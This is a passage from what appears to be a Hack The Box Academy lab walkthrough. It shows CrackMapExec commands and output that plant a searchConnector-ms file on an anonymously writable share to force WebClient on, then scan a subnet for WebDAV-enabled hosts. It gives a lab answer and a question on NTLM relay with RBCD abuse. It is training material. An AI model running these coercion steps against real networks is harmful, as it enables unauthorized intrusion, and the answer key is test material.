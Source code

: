 ```shell
crackmapexec smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing FILENAME=@secret SHARE=Testing
```

```shell-session
htb-student@ubuntu:~$ crackmapexec smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing FILENAME=@secret SHARE=Testing

[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.3    445    DC01             [+] INLANEFREIGHT.LOCAL\anonymous: 
DROP-SC     172.16.117.3    445    DC01             [+] Found writable share: Testing
DROP-SC     172.16.117.3    445    DC01             [+] [OPSEC] Created @secret.searchConnector-ms file on the Testing share
```

Once they have successfully placed the searchConnector-ms file, students will have to wait for a few minutes. Then after a few minutes, once enumerating the WebClient service using the WebDAV module in `CrackMapExec`, students will learn that the service got enabled on `172.16.117.60`.

Code: shell

```shell
crackmapexec smb 172.16.117.0/24 -u anonymous -p '' -M webdav
```

```shell-session
htb-student@ubuntu:~$ crackmapexec smb 172.16.117.0/24 -u anonymous -p '' -M webdav

SMB         172.16.117.60   445    SQL01            [*] Windows 10.0 Build 17763 x64 (name:SQL01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.50   445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.60   445    SQL01            [+] INLANEFREIGHT.LOCAL\anonymous: 
WEBDAV      172.16.117.60   445    SQL01            WebClient Service enabled on: 172.16.117.60
SMB         172.16.117.3    445    DC01             [+] INLANEFREIGHT.LOCAL\anonymous: 
SMB         172.16.117.50   445    WS01             [+] INLANEFREIGHT.LOCAL\anonymous: 
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

Answer: `172.16.117.60`

## Advanced NTLM Relay Attacks Targeting Kerberos

### Question 2

#### "Coerce the computer that got WebDav enabled into performing HTTP NTLM authentication and then abuse RBCD to delegate a computer account to authenticate to it. Impersonate the Administrator account and submit the file's contents at 'C:\Users\Administrator\Desktop\flag.txt'."
